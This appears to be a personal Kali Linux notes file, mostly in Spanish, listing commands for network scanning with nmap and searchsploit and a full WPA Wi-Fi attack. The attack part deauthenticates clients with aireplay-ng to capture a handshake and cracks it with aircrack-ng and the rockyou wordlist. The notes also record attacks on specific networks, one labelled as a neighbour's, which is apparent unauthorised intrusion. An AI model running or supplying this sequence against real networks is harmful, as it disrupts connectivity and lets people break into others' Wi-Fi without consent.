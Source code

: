# kali
codigos para aplicacion de Linux, version Linux


sensible-browser




sudo airmon-ng 

airmon-ng start wlan0

airodump-ng wlan0

airodump-ng --bssid 1C:B0:44:BF:33:45 --channel 11 wlan0


ifconfig 

ping 192.168.1.91

nmap -sP 192.168.1.0/24 => es desde 0/24. 
Con eso saco las IP conectadas a la red

nmap -sT -p 80,443 nmap 192.168.1.0/24 => es desde 0/24

nmap -sS -p 80,443 nmap 192.168.1.0/24 => es desde 0/24

nmap -sT (IP) 

nmap -O (IP)

nmap -A (IP)

nmap -p- -sV (IP)
Se escanean los 65.535 puertos. 
Con esto obtengo las debilidades que son posible de explotar

searchsploit (se pega el programa obtenido en el paso anterior)
se busca si tiene algun backdoor con metaexploit

nmap --script vuln IP


ip iphone 192.168.1.83




min 10:00 Nmap tutorial to find networks vulnerabilities

man ls => Ayuda del comando
ls -l -a
pwd
cd /
uname -i
cd 
ls --file-type
ls --file-type -a -l 

Para abir archivos
less XXXXX.XXX 



Airmon
iwconfig => Mode:Managed, esto debe ser cambiado a modo monitor
la tarjeta debe estar en estado monitor
ifconfig wlan0
ifconfig wlan0 down => para dejar la tarjeta en modo monitor
airmon-ng check kill => congela todos los proceso de la tarjeta
airmon-ng start wlan0 => para comenzar el proceso, en modo monitor
iwconfig => confirmar que la tarjeta este en monitor mode
el adaptador debe soportar el modo de monitor
en monitor mode
airodump-ng wlan0 => Monitoreo de redes
airodump-ng -c1 -w capture -d BSSID wlan0 => the objective is knock station (access point) and achive the handshacke
guardando esta informacion en el archivo capture.cap
En segundo terminal colocar la siguiente linea
aireplay-ng --deauth 0 -a BSSID -c STATION wlan0 => Para hacer el handshake
Saldra PMKID found
Despues WPA Handshake

ls
el archivo mas importante es capture.cap
wireshark nombre archivo
filtrar por eapol

airmon-ng stop wlan0 
iwconfig
Para aplicar al dictionary
aircrack-ng capture-01.cap -w /usr/share/dict/wordlist-probable.txt
Probar con rockyou.txt, que se encuentra en /usr/share/wordlists/
Antes se debe descomprimir con gzip -d rockyou.txt.gz




Atacando al 810 =>7C:DB:98:E2:95:FC CH1
Atacando a la vecina => 18:70:3B:E6:FF:53 CH7
airodump-ng wlan0 => para rescatar BSSID y chanel
 


Instalando ATOM
dpkg -i atom-amd64(1).deb 
sudo apt --fix-broken install
sudo apt install -f




Para saber la arquitectura de un Linux
uname –m
If the response is i686, you have a 32-bit version of Linux.
If the response is x86_64, you have a 64-bit version of Linux.
uname –a
You can find out more detail about your particular installation of Linux, like your kernel version, by entering
Se debe instalar Kali Linux para 64 bits
	
